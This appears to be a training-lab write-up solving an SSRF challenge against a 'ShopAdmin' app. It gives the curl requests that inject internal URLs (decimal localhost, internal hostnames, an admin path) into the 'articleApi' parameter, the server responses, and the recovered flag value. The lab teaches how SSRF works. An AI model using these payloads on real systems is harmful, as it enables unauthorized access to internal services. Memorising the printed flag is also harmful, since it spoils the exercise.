

# Task 2. Exploit SSRF to breach our security!


## **Task Description**


We've been working on improving our security, and now it's time to see how well it holds up. We're especially focused on weaknesses that could allow unauthorized requests on the server **SSRF** vulnerabilities. By putting our system through rigorous testing, we'll identify any areas that need more protection. Let's find the chinks in our armor before anyone else does!\


It's time to pentest our added security by probing the SSRF vulnerability.

This stage also focuses on the SSRF vulnerability within the check reduction functionality. The **articleApi** parameter is vulnerable, and your goal is to exploit it to gain access to the internal admin dashboard.

- Target Application: [ShopAdmin](https://intranet-dlh.hbtn.io/rltoken/izQalekbDrvx0aF6-Qp2WA)
- Initial Endpoint: `http://web0x08.hbtn/app3/`

---

Useful instructions:

1. Log into ShopAdmin, it is a shopping website, there is a lot of article.
2. The challenge is about the SSRF vulnerability in check reduction functionality.
3. You can click on one article and we see that we can do a check reduction.
4. Param artcileApi is vulnerable.
5.  This App is Forwarded on Port 3002


**Repo:**

- GitHub repository: `dlh-cyber_security`
- Directory: `web_application_security/0x08_ssrf`
- File: `2-flag.txt`


## **Solution**


## Task 2, Step 1: Test the SSRF protection

We've successfully exploited the previous two applications:

- Task 0: SSRF using `127.0.0.1:3000`
- Task 1: SSRF filter bypass using decimal localhost `2130706433:3001`

Task 2 uses port 3002, and we know that `articleApi` remains vulnerable.

We'll start by testing whether the decimal localhost bypass still works.

### Action: Execute this command in Kali

```bash
curl -sS -i -X POST 'http://web0x08.hbtn/app3/check-reduction' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'articleApi=http://2130706433:3002/admin/list-of-items'
```

### Why?

We're reusing the successful Task 1 payload against the new application:

| Component               | Purpose                                     |
| ----------------------- | ------------------------------------------- |
| `/app3/check-reduction` | Task 2's SSRF entry point                   |
| `articleApi`            | Vulnerable URL parameter                    |
| `2130706433`            | Decimal representation of `127.0.0.1`       |
| `3002`                  | Task 2's internal application port          |
| `/admin/list-of-items`  | Endpoint containing flags in previous tasks |


```bash
curl -sS -i -X POST 'http://web0x08.hbtn/app3/check-reduction' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'articleApi=http://2130706433:3002/admin/list-of-items'

# HTTP/1.1 400 Bad Request
# Server: nginx/1.18.0
# Date: Mon, 09 Nov 2026 19:41:23 GMT
# Content-Type: text/html; charset=utf-8
# Content-Length: 16
# Connection: keep-alive
# X-Powered-By: Express
# ETag: W/"10-m/yQhDwS2T4l/9EmgU86BV9TCKU"
#
# Invalid hostname
```

## Task 2, Step 2: Investigate hostname validation

The response gives us an important clue:

```
HTTP/1.1 400 Bad Request

Invalid hostname
```

Unlike Task 1, the application now rejects our decimal localhost address.

This suggests that Task 2 introduces hostname validation, although we don't yet know whether it uses an allowlist, blocks IP literals, or applies another restriction.

### Action: Test the original internal hostname

Execute this command in Kali:

```bash
curl -sS -i -X POST 'http://web0x08.hbtn/app3/check-reduction' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'articleApi=http://internal-api.shop.com:3002/admin/list-of-items'
```

### Why?

In Task 0, the application's original `articleApi` value was:

```
http://internal-api.shop.com:3000/check-reduction
```

We're testing whether the same internal hostname is accepted in Task 2, using the new port `3002`.

The response will help distinguish between two possibilities:

- Admin HTML returned: The hostname is accepted and the internal admin endpoint is reachable.
- `Invalid hostname` returned: The validation is more restrictive than anticipated, or the application uses a different permitted hostname.

An important distinction: hostname validation and destination IP validation are not the same thing. A hostname may look acceptable to a filter but still resolve to an internal address.


```bash
curl -sS -i -X POST 'http://web0x08.hbtn/app3/check-reduction' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'articleApi=http://internal-api.shop.com:3002/admin/list-of-items'

# HTTP/1.1 400 Bad Request
# Server: nginx/1.18.0
# Date: Mon, 09 Nov 2026 19:48:24 GMT
# Content-Type: text/html; charset=utf-8
# Content-Length: 16
# Connection: keep-alive
# X-Powered-By: Express
# ETag: W/"10-m/yQhDwS2T4l/9EmgU86BV9TCKU"
#
# Invalid hostname
```

Checking `articleApi` value in Task 2:



```json
{
	"articleApi": "http://discount.newshop.tn:3002/app3/check-reduction"
}
```

Trying curl with the new hostname:

```bash
curl -sS -i -X POST 'http://web0x08.hbtn/app3/check-reduction' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'articleApi=http://discount.newshop.tn:3002/admin/list-of-items'

# HTTP/1.1 200 OK
# Server: nginx/1.18.0
# Date: Mon, 09 Nov 2026 19:51:14 GMT
# Content-Type: text/html; charset=utf-8
# Content-Length: 1428
# Connection: keep-alive
# X-Powered-By: Express
# ETag: W/"594-43jWBicG6kQFkm8ZdJ4JJnAePPE"
#
# <!DOCTYPE html>
# <html lang="en">
#   <head>
#     <meta charset="UTF-8" />
#     <meta name="viewport" content="width=device-width, initial-scale=1.0" />
#     <title>Admin Items</title>
#     <link
#       rel="stylesheet"
#       href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css"
#     />
#     <link rel="stylesheet" href="/css/adminstyle.css" />
#   </head>
#   <body>
#     <header>
#       <h1>Admin Items</h1>
#       <nav>
#         <ul>
#           <li><a href="/app3/admin/dashboard">Dashboard</a></li>
#           <li><a href="/app3/admin/list-of-items">Items</a></li>
#         </ul>
#       </nav>
#     </header>
#     <div class="container mt-5">
#       <table class="table table-striped">
#         <thead>
#           <tr>
#             <th>ID</th>
#             <th>Name</th>
#             <th>Description</th>
#             <th>Price</th>
#           </tr>
#         </thead>
#         <tbody>
#           <tr>
#             <td>1</td>
#             <td>FLAG_2</td>
#             <td>d228761de7345891bb76e633489ab413</td>
#             <td>500</td>
#           </tr>
#         </tbody>
#       </table>
#     </div>
#     <script src="https://code.jquery.com/jquery-3.5.1.slim.min.js"></script>
#     <script src="https://cdn.jsdelivr.net/npm/@popperjs/core@2.5.3/dist/umd/popper.min.js"></script>
#     <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/js/bootstrap.min.js"></script>
#   </body>
# </html>
```

## Task 2, Step 3: Save FLAG_2

SSRF exploitation successful!

We discovered the key difference in Task 2: the application uses a different internal hostname.

| Field             | Value                              |
| ----------------- | ---------------------------------- |
| Flag              | `d228761de7345891bb76e633489ab413` |
| Flag name         | `FLAG_2`                           |
| Accepted hostname | `discount.newshop.tn`              |
| Internal port     | `3002`                             |
| Target endpoint   | `/admin/list-of-items`             |

### Why did this work?

The application's normal `articleApi` parameter references:

```
http://discount.newshop.tn:3002/app3/check-reduction
```

The application rejected both `2130706433` and `internal-api.shop.com`, returning `Invalid hostname`.

However, it accepted `discount.newshop.tn` and allowed us to change the URL path to `/admin/list-of-items`.

This suggests the filter validates the hostname but does not adequately restrict which internal paths the backend can request.

The security flaw is that an allowed hostname does not automatically make every resource on that host safe to access.

### Action: Save FLAG_2


```bash
echo 'd228761de7345891bb76e633489ab413' > 2-flag.txt
git add .
git commit -m "2-flag.txt"
git push
```
